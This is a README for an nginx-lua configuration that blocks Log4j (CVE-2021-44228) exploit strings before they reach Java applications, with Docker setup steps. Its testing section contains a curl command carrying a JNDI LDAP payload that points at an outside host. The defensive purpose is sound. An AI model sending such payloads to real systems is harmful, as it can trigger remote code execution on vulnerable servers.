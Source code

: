
# nginx-lua
This repository contains the configuration for the mitigation of Log4j vulnerabilities in the JAVA applications. Nginx, with the help of lua module, will prevent the attacker to access vulnerable JAVA application.
Special thanks to [John H Patton
](https://johnhpatton.medium.com/) for the motivation to extend the solution he wrote to mitigate the Log4j vulnerability.


## Description
This implementation will provide a quick fix for the vulnerability [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). Expertflow latest release is not vulnerable to this vulnerability and we recommend you to update to the latest release. However, this is also one way to mitigate the risk of remote code execution with the help of Nginx + lua module. After this implementation, each request will be inspected by Nginx and if the request has exploit to remotely execute the code in either its header or in the body, the request will be dropped and won't make its way to the internal application.


## Requirements
1. Expertflow has built Debian-based Nginx image with lua module build-in. Just pull the docker image of nginx from the Expertflow Dockerhub registry.
2. Update the `nginx.conf` file
3. Clone and mount the `nginx-lua.conf` `lua.conf`, and `cve_2021_44228.lua` files to your nginx container.

We assume that the nginx is deployed in Docker throughout the document.




## Implementation Steps
1. Clone and copy the `nginx-lua.conf`, `https-lua.conf`, `lua.conf`, and `cve_2021_44228.lua` ,  in the `/path/to/nginx_volume_mount/`. 
For example if you have deployed nginx in Docker then there must be a section present called `Volumes:` in your docker-compose. For example:
```
volumes:
      - /path/to/nginx_volume_mount/https.conf:/etc/nginx/conf.d/https.conf
```

This is mounting a custom `https.conf` file to the build-in nginx `https.conf` file present under the directory: `/etc/nginx/conf.d/` in nginx container.

2. Now we need to modify `https.conf`. Update the `/path/to/nginx_volume_mount/https.conf` file by adding the following code in `https.conf`

```
include /etc/nginx/https-lua.conf
```



3. Now we need to update the `docker-compose.yml` file of the nignx. 
- Update the `image:` entry with the `expertflow/nginx-lua:debian-1.21.4`
- Navigate to the `volume:` section and mount these files to docker container by adding the following code:
```
    volumes:
      - /path/to/nginx_volume_mount/https.conf:/etc/nginx/conf.d/https.conf
      - /path/to/nginx_volume_mount/https-lua.conf:/etc/nginx/https-lua.conf
      - /path/to/nginx_volume_mount/nginx-lua.conf:/etc/nginx/nginx.conf
      - /path/to/nginx_volume_mount/cve_2021_44228.lua:/usr/local/lib/lua/cve_2021_44228.lua
      - /path/to/nginx_volume_mount/lua.conf:/etc/nginx/conf.d/lua.conf
```
4. Now just remove the nginx container and start it again. 

### Testing
We can now test our implementation whether it's blocking the exploit in the request or not. To test it, send the following request with the exploit present in the header and body with `curl`. Just replace the string `<FQDN>` with your FQDN.
```
curl --location --request POST 'https://<FQDN>/uri' \
--header 'efheader: ${jndi:ldap://8.8.4.4:1111/RCE/Command}' \
--header 'Content-Type: application/json' \
--data '{
    "messages": [{
        "from": "333",
        "contacts": "Jon Doe",
        "text": {
            "body": "${jndi:ldap://8.8.4.4:1111/RCE/Command}"
        }
    }]
}'
```
This will show you the following response which indicates that the configurations are working in perfect manner.
```
 Expertflow Log4J Forbidden
```
